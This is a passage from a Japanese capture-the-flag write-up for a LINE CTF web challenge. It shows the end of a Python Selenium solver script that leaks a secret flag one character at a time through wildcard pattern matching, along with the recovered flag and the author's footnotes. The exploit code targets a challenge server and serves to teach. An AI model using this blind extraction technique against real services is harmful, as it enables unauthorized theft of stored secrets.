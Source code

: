 ```py
        # Check the result
        flash_message_el = driver.find_element_by_css_selector(
            '#content > div > div > div.box > form > div:nth-child(6)')
        truth = flash_message_el.get_attribute('textContent').strip() == 'ng'

        return prop, truth

    except Exception as e:
        return prop, False

    finally:
        driver.close()


def backup(revealed_flag: str):
    with open('flag.bak', mode='w') as f:
        f.write(revealed_flag)


if __name__ == "__main__":
    with ThreadPoolExecutor(max_workers=8) as executor:
        upper_bound = 50
        props = [length_is(i) for i in range(1, upper_bound + 1)]
        secret_length = [v[0].count('_') for i, v in enumerate(list(executor.map(prop_holds, props))) if v[1]].pop()

    print(f'\r[+] secret_length: {secret_length}\033[0K')

    secret = ''
    for i in range(1, secret_length + 1):
        with ThreadPoolExecutor(max_workers=4) as executor:
            props = [nth_char_is(i, c) for c in S]
            possible_chars = [v for v in executor.map(prop_holds, props) if v[1]]
            if len(possible_chars) == 1:
                secret += possible_chars.pop()[0].lstrip(f'{FLAG_PRE}{"_" * (i - 1)}').rstrip(f'%{FLAG_SUF}')
            else:
                secret += '?'

            print(f'\r[+] ~N={i} => {secret}\033[0K')
            backup(f'{FLAG_PRE}{secret}')

    print(f'[*] flag: {FLAG_PRE}{secret}{FLAG_SUF}')
```

### Flag

`LINECTF{1-kn0w-what-y0u-d0wn10ad}`

## 注釈


[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。
